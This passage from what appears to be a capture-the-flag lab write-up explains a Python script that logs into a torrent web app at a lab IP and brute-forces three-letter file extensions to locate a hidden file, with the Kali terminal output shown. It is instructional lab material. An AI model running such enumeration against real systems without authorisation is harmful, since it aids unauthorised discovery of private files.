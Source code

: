 {% highlight python linenos %}
import requests, sys, time

filename = "b44b82a4bc6c35f6ad5e9fceefef9509c17fba74" #CHANGE THIS
directory = "torrents"                                #CHANGE THIS

#Obtain a session cookie for a logged in user
data = {"username":"x","password":"x"}
r = requests.post("http://10.10.10.6/torrent/login.php", data=data, allow_redirects=False)
sessionCookie = r.headers["Set-Cookie"].split(";")[0]
headers = {"Cookie":""+sessionCookie}

#Generate extensions
validChars= "abcdefghijklmnopqrstuvwxyz"
extensions = [i+j+k for i in validChars for j in validChars for k in validChars]

#Brute force extensions
startTime = time.time()
for extension in extensions:
    elTime = str(int(time.time() - startTime))
    print("Extension: '%s'. Elapsed time: %s seconds." % (extension,elTime), end="\r")

    URL = "http://10.10.10.6/torrent/"+directory+"/"+filename+"."+extension
    r = requests.get(URL, headers=headers)
    if r.status_code != 404:
        print("Found URL: " + URL)
        print("The URL was found in %s seconds" % int(time.time() - startTime))
        sys.exit(0)
{% endhighlight %}

At line 3 and 4 we define a filename and a directory where we believe that the file is located. Next, we log in to the application between line 7 and 10 since we don't know if we need to be authenticated to access the file. Then, at line 14, we generate a list of all possible extensions that are 3 characters long, using [list comprehension](https://www.w3schools.com/python/python_lists_comprehension.asp). The for loop at line 18 then loops through all of these extensions. At line 22, a URL is built using the specified directory, specified filename and an extension from the list of extensions. Thereafter, at line 23, we send a `GET` request to the URL. If the HTTP status code of the response is `404 Not Found`, we continue with the next extension. Otherwise, we halt the execution and print the URL which did not result in a `404 Not Found` error message.

If we run the code, we discover the URL `http://10.10.10.6/torrent/torrents/b44b82a4bc6c35f6ad5e9fceefef9509c17fba74.btf` as can be seen below. The author might have chosen to save torrent files with the extension `.btf` since "BTF" is an abbreviation for "Bit Torrent File". It is, however, not a common file extension. Since the extension started with one of the first characters in the alphabet, it only took 81 seconds for the script to finish when executed on my machine. The script might take more or less time to finish on another machine depending on its hardware as well as its internet connection.
{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ python3 x.py                                                                                                                                      1 ⚙
Found URL: http://10.10.10.6/torrent/torrents/b44b82a4bc6c35f6ad5e9fceefef9509c17fba74.btf
The URL was found in 81 seconds
{% endhighlight %}
